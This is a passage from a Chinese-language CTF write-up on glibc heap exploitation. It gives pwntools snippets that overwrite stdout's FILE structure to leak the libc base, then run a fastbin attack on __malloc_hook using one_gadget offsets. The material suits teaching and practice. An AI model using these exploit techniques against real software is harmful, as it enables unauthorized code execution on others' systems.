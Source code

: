 [![](assets/1701612416-af2ed5fa4ef5f4847cf69a28e1ba8faa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170313-721ba978-14c9-1.png)  
这个地址的后三位是固定的，倒数第四位是随机的 ，但是我们只能写两字节因此第四位必须要去爆破，在调试的时候关闭ASLR就无需爆破了。

```plain
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
```

然后fake\_chunk申请到stdout结构体上方后，我们去改变结构体的\_flags字段和\_IO\_write\_base字段(偏移一定)等再次调用puts函数的时候，我们就可以获取libc基地址了（需要注意的是将\_flags字段改成0xfbad1880，之后的puts都不会再加\\n了，因此要处理一下接收部分。不过用0xfbad1887puts都会再加\\n）

```plain
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)
```

泄露完libc\_base后，直接打fastbin attack就行了

```plain
add(0x60,10,'a') 
delete(10)
edit(10,p64(malloc_hook-0x23))
```

[![](assets/1701612416-0ded8f0aa45e12240cb65c37cacc99d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170349-87bc1628-14c9-1.png)

